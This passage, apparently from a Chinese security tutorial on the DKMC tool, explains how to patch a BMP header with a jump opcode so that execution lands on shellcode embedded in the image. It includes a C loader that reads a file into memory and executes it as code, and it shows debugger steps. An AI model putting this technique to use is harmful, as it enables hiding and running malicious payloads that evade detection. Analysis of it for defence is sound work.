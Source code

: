 调整BMp的头，跳转到`0x0003c650`地址处的shellcode：

```
BM + jmp instruction = 3 bytes
jmp 0x0003c650 – 0x3 = opcode e9 49 c6 03 00
```

测试图片：

```
#include <Windows.h>
int main(int argc, char **argv) {
HANDLE hFile = NULL;
CHAR *buffer = NULL;
DWORD dwSize = 0;
DWORD dwReaded = 0;
int(*shellcode)(void);
hFile = CreateFile(argv[1],
GENERIC_READ,
FILE_SHARE_READ,
NULL,
OPEN_EXISTING,
FILE_ATTRIBUTE_NORMAL,
NULL);
if(hFile != INVALID_HANDLE_VALUE) {
dwSize = GetFileSize(hFile, NULL);
buffer = GlobalAlloc(GPTR, dwSize);
printf("Buffer located at %p\n", buffer);
ReadFile(hFile, buffer, dwSize, &dwReaded, NULL);
shellcode = (int(*)())buffer;
shellcode();
}
return 0;
}
```

开始通过调试器调试执行程序，并在调用`EAX`处下断点，EAX指向包含图片的缓冲区：

![](/img/hack/DKMC/1505207126108.png)


F7跳转到图像shellcode处：
